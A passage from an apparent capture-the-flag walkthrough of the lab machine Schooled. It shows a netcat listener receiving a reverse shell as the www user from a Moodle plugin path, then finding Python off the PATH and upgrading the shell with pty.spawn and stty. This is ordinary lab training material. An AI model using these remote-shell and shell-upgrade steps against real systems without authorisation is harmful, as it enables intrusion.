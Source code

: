 At `nc`:

```

oxdf@parrot$ nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.14.7] from (UNKNOWN) [10.10.10.234] 41068
bash: cannot set terminal process group (1039): Can't assign requested address
bash: no job control in this shell
[www@Schooled /usr/local/www/apache24/data/moodle/blocks/rce/lang/en]$ id
uid=80(www) gid=80(www) groups=80(www)

```

For people used to Linux, it’s worth noting that the web root isn’t `/var/www/html` as is typically seen there, but rather `/usr/local/www/apache24/data`.

#### Upgrade

Python doesn’t appear to be installed on the box:

```

[www@Schooled /]$ which python
[www@Schooled /]$ which python3

```

It took me a while to notice, but it is installed, just not on the `$PATH`:

```

[www@Schooled /]$ echo $PATH
/sbin:/bin:/usr/sbin:/usr/bin
[www@Schooled /]$ find / -name python3 2>/dev/null
/usr/local/bin/python3
/usr/local/share/bash-completion/completions/python3

```

From there, the standard shell upgrade trick works:

```

[www@Schooled /]$ /usr/local/bin/python3 -c 'import pty;pty.spawn("bash")'
[www@Schooled /]$ ^Z
[1]+  Stopped                 nc -lnvp 443
oxdf@parrot$ stty raw -echo; fg
nc -lnvp 443
            reset
Erase set to backspace.
[www@Schooled /]$ 

```

There’s one issue, the backspace key now prints `^?` instead of deleting back a character. [This post](https://www.ias.edu/math/computing/faq/set-my-backspace-key) showed how to fix it by entering `stty erase ^?` (where `^?` is entered by hitting backspace).
